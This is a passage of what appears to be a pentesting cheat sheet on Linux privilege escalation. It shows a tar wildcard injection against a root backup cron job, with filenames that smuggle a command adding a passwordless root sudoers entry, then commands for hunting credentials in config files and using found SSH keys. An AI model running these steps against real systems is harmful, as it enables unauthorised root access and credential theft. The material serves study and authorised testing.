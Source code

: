 With a cronjob that make automatically backup copy from the `/root`{: .filepath} to `/tmp`{: .filepath}. When the cron job runs, these file names will be interpreted as arguments and execute any commands that we specify:
```console
zero@pio$ echo 'echo "user ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
zero@pio$ echo "" > "--checkpoint-action=exec=sh root.sh" 
zero@pio$ echo "" > --checkpoint=1
```

Check that the files are created:
```console
zero@pio$ ls -al 

-rw-rw-r--  1 user user    1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 user user    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
```

Once the cronjob run:
```console
zero@pio$ sudo -l 

...
User zero may run the following commands on pio:
    (root) NOPASSWD: ALL
```

---

# Credential Hunting 

## Searching for Creds 

These may be found in configuration files (**.conf**, **.config**, **.xml**, etc.), shell scripts, a user's bash history file, backup (**.bak**) files, within database files or even in text files. Don't forget about **Password Reuse**. One example for SQL credentials:
```console
zero@pio$ cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'
```

We can search for config files:
```console
zero@pio$ find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
```

## SSH Keys 

Always check for SSH keys:
```console
zero@pio$ ls ~/.ssh
```

To connect using the RSA:
```console
zero@pio$ chmod 600 id_rsa
zero@pio$ ssh user@<ip> -i id_rsa
```
